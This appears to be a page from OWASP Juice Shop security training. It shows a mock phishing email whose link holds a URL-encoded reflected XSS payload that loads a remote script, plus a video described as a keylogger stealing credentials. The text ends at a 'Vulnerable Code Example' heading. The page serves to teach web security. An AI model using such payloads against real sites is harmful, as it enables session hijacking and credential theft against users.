 <small>Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize
**now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,

Bjorn Kimminich CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda
yadda yadda more assuring legal bla All logos and icons are trademarks
of Juice Shop Inc. Copyright (c) 2018 Juice Shop
Inc._</small></small></small>

---

# [XSS Demo](https://github.com/wurstbrot/shake-logger)

[![Shaking XSS demo on Juice Shop](images/02-03-xss/shake_js-preview.png)](https://youtu.be/Msi52Kicb-w)

:information_source: _This video shows how severe the impact of XSS can
be: It makes the application shake & dance **and** lets a keylogger
steal user credentials!_

---

# :x: Vulnerable Code Example
